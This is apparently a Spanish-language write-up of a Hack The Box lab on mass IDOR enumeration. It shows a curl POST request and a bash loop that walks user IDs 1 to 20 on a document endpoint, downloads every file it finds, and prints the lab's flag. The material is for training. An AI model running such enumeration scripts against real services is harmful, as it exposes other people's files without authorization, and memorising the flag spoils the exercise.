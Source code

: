 # Laboratorio: Mass IDOR Enumeration 🚗

1. Visitamos la web 

<p align="center">
    <img src="./assets/03-Mass_IDOR/01-Web.PNG" width=400>
</p>

---

2. Aquí no funcionará el colocar `?uid=[N]` en la **url**, ya que no nos saldrá ningún documento.

Si analizamos el código fuente de la página web nos daremos cuenta del siguiente código

* **Código Fuente**
```html
<a href="javascript:getDocuments('1')" target="_self">Documents</a>
```

* Aquí se hace referencia al **id 1**.
* Si vamos a la parte de `Network` en la **consola de desarrollador en en navegador web**, veremos el siguiente archivo

<p align="center">
    <img src="./assets/03-Mass_IDOR/02-file.PNG" width=400>
</p>

* Ahora veremos su código
    * **URL:** `http:/[IP]:[Port]/jquery.redirect.js`

    * **Código**
    ```js
    var defaults = {
        url: null,
        values: null,
        method: "POST",
        target: null,
        traditional: false,
        redirectTop: false
    };
    ```
    * La parte más importante es el método **POST**

---

3. Para verificar si enviando una solicitud por **POST** a la página, esta nos responde con contenido, usaremos **cURL**
* `curl -s -X POST "http://[IP]:[Port]/documents.php" -d "uid=1" | grep -oP "\/documents.*?.(pdf|txt)"`
    * `-x POST`: La solicitud se enviará por un método **POST**
    * `-d "uid=1"`: Enviaremos la data por **POST** indicando que un `uid` será igual a 1.
    * `grep -oP "\/documents.*?.(pdf|txt)"`: Filtraremos por archivos que terminen en la extensión `.pdf` o `.txt` (**`.txt`** ya que es el archivo que contiene la `flag`)

**Output**
```
/documents/Invoice_11_03_2021.pdf
/documents/Report_11_04_2021.pdf
```
---
4. Como el comando anterior funcionó, lo que haremos es adaptarlo al **script** que nos dan en **`HackTheBox`**

* `docs.sh`
```sh
#!/bin/bash

url="http://[IP]:[Port]"

for i in {1..20}; do
        for link in $(curl -s -X POST "$url/documents.php" -d "uid=$i" | grep -oP "\/documents.*?.(pdf|txt)"); do
                echo $link
		wget -q $url/$link
        done
done
```

**Output**
```
<SNIP>
/documents/flag_11dfa168ac8eb2958e38425728623c98.txt
<SNIP>
```
---
5. Ahora leemos la **flag**
```
HTB{4ll_f1l35_4r3_m1n3}
```